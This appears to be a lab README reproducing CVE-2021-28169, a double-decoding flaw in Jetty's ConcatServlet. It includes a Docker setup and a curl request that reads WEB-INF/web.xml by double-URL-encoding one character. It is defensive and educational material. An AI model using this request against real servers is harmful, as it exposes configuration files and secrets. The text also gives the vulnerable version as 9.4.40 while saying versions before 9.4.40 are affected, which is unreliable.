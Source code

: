 # Jetty Utility Servlets ConcatServlet Double Decoding Information Disclosure Vulnerability (CVE-2021-28169)

[中文版本(Chinese version)](README.zh-cn.md)

Eclipse Jetty is a Java web server and Java Servlet container.

Before version 9.4.40, 10.0.2, 11.0.2, the `ConcatServlet` and `WelcomeFilter` classes in Jetty Servlets are influenced by a double decoding bug. If developers use these two classes manually, attackers can use them to download arbitrary sensitive files in the WEB-INF directory.

Reference links.

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-gwcr-j4wh-j3cq

## Vulnerable Application

Execute the following command to start a Jetty 9.4.40 server.

```
docker compose up -d
```

After the server starts, visit ``http://your-ip:8080`` to see an example page. This page uses the `ConcatServlet` to optimize the loading of static files:

```
<link rel="stylesheet" href="/static?/css/base.css&/css/app.css">
```

## Exploit

The sensitive file web.xml is not accessible through `/static?/WEB-INF/web.xml`.

![](1.png)

Double URL encoding `W` to bypass the restriction:

```
curl -v 'http://your-ip:8080/static?/%2557EB-INF/web.xml'
```

![](2.png)
